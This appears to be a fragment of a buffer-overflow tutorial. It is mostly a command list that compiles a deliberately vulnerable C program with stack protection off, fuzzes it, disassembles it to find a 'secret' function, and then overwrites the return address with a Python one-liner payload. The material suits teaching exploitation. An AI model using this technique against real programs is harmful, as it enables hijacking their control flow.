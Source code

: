 vi vuln.c
gcc vuln.c -o vuln -fno-stack-protector -m32
./vuln
vi fuzz.py
python fuzz.py
objdump -d vuln
objdump -d vuln | grep secret
python -c 'print "a"*32 + "\x9d\x84\x04\x08"' | ./vuln
